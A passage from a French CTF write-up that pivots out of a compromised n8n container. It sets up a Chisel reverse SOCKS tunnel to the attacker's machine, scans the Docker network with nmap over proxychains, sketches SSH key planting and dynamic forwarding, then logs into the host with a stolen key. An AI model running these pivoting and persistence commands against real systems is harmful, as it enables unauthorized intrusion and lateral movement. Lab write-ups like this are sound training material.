 On va donc mettre en place un serveur SOCKS sur le container et le forwarder sur notre machine, ce qui nous permettra de scanner d'éventuels autres containers ou la machine hôte.

Pour cela j'ai utilisé [Chisel](https://github.com/jpillora/chisel).

Sur ma machine, j'utilise cette commande qui met Chisel en écoute sur le port 80 :

```console
$ sudo ./chisel server --host 192.168.56.1 -p 80 --reverse
2025/05/18 22:55:40 server: Reverse tunnelling enabled
2025/05/18 22:55:40 server: Fingerprint jDonc30936TnqIxa+SVdpm4yXfTl56t5OKA8bOou8fc=
2025/05/18 22:55:40 server: Listening on http://192.168.56.1:80
```

Et sur la node n8n, j'ai cette commande qui s'y connecte et indique de créer un serveur SOCKS sur notre machine (port 1080). 

```console
/tmp $ ./chisel client 192.168.56.1:80 R:socks
2025/05/18 20:55:31 client: Connecting to ws://192.168.56.1:80
2025/05/18 20:55:57 client: Connected (Latency 1.113854ms)
```

On peut alors scanner les ports avec Nmap en le faisant passer par proxychains :

```console
$ ./proxychains4 -q -f proxychains.conf nmap -v -T5 -n -Pn -p 22 --open 172.17.0.0/24
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org )
Initiating Connect Scan at 23:39
Scanning 256 hosts [1 port/host]
Discovered open port 22/tcp on 172.17.0.1
```

Nmap a une option `--proxy socks4://proxy:port` mais ça n'a rien trouvé sur le scan de ports. Proxychains utilise ici socks5.

L'utilisation de Chisel rend les choses faciles, car avec ssh, on ne peut pas avoir de "reverse socks" directement.

Sur la node n8n, il y a un serveur ssh qui écoute localement. On n'a pas le mot de passe de l'utilisateur courant (`node`), mais on a l'accès shell.

La solution basée sur SSH aurait été la suivante :

1. Ajouter une clé à nous dans le `authorized_keys` de `node`
2. Utiliser SSH pour forwarder le port SSH de la node n8n vers notre machine (genre sur le port 2222)
3. Faire un `ssh -i notre_cle -D 1080 -p 2222 node@127.0.0.1`
4. Configurer proxychains pour utiliser ce port

Dans les deux cas, on aurait trouvé le SSH sur 172.17.0.1. L'interface réseau du container spécifie un /16, mais les IPs importantes sont généralement au début.

### Hero

C'est le moment d'essayer la clé SSH obtenue au tout début :

```console
$ ./proxychains4 -f proxychains.conf ssh -i /tmp/ctf.key shawa@172.17.0.1 
[proxychains] config file found: proxychains.conf
[proxychains] preloading ./libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.15-git-1-g7de7dd0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.1:22  ...  OK
The authenticity of host '172.17.0.1 (172.17.0.1)' can't be established.
ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.1' (ED25519) to the list of known hosts.
shawa was here.
Welcome to Alpine!
```